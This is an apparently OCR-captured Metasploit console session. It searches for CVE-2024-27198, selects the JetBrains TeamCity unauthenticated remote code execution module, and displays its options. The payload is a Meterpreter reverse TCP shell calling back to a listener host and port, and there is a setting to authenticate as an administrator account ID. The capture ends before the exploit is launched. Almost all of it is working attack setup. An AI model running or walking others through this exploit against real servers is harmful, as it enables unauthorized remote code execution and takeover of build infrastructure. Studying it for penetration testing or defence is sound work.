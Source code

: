 Metasploit Documentation: https://docs.metasploit.com/

msf6 > search CVE-2024-27198

Matching Modules
================

   #  Name                                                      Disclosure Date  Rank       Check  Description
   -  ----                                                      ---------------  ----       -----  -----------
   0  exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198  2024-03-04       excellent  Yes    JetBrains TeamCity Unauthenticated Remote Code Execution
   1    \_ target: Java                                         .                .          .      .
   2    \_ target: Java Server Page                             .                .          .      .
   3    \_ target: Windows Command                              .                .          .      .
   4    \_ target: Linux Command                                .                .          .      .
   5    \_ target: Unix Command                                 .                .          .      .


Interact with a module by name or index. For example info 5, use 5 or use exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198                                                                                                      
After interacting with a module you can manually set a TARGET with set TARGET 'Unix Command'

msf6 > use 0
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > options

Module options (exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                              yes       The target host(s), see https://docs.metasploit.com/docs/using-me
                                                 tasploit/basics/using-metasploit.html
   RPORT              8111             yes       The target port (TCP)
   SSL                false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI          /                yes       The base path to TeamCity
   TEAMCITY_ADMIN_ID  1                yes       The ID of an administrator account to authenticate as
   VHOST                               no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.22.122   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java

